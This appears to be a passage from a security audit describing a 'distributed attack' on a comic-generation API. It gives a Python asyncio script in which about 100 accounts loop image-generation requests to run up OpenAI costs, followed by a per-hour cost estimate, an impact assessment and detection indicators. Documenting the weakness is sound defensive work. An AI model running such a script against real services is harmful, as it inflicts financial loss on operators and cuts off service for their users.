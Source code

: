 **Variant B: Distributed Attack**
```python
# Coordinated attack from multiple accounts
import asyncio
import aiohttp

accounts = [
  {"email": "user1@test.com", "token": "..."},
  {"email": "user2@test.com", "token": "..."},
  # ... 100 accounts
]

async def drain(session, account):
    while True:
        async with session.post(
            'https://api.example.com/comics/generate-image',
            headers={'Authorization': f"Bearer {account['token']}"},
            json={'panelDescription': 'expensive prompt'}
        ) as resp:
            print(f"{account['email']}: {resp.status}")

async def main():
    async with aiohttp.ClientSession() as session:
        tasks = [drain(session, acc) for acc in accounts]
        await asyncio.gather(*tasks)

asyncio.run(main())
```

#### Cost Calculation
```
DALL-E 3 Standard (1024x1024): $0.040 per image
GPT-4 API: ~$0.03 per request (with large prompts)

Attack Duration: 1 hour
Requests per second: 10 (conservative)
Total requests: 36,000

Image Generation Cost: 36,000 × $0.040 = $1,440/hour
Script Generation Cost: 36,000 × $0.030 = $1,080/hour
TOTAL: $2,520 per hour of attack

24-hour attack cost: $60,480
```

#### Impact Assessment
- **Financial:** Catastrophic - Thousands of dollars per hour
- **Service:** API rate limits from OpenAI may block legitimate users
- **Reputation:** Service disruption affects all users

#### Detection Indicators
- Spike in OpenAI API costs
- Unusual volume from single user_id
- Sequential requests with minimal delay
- Consistent error patterns
- Same IP making excessive requests
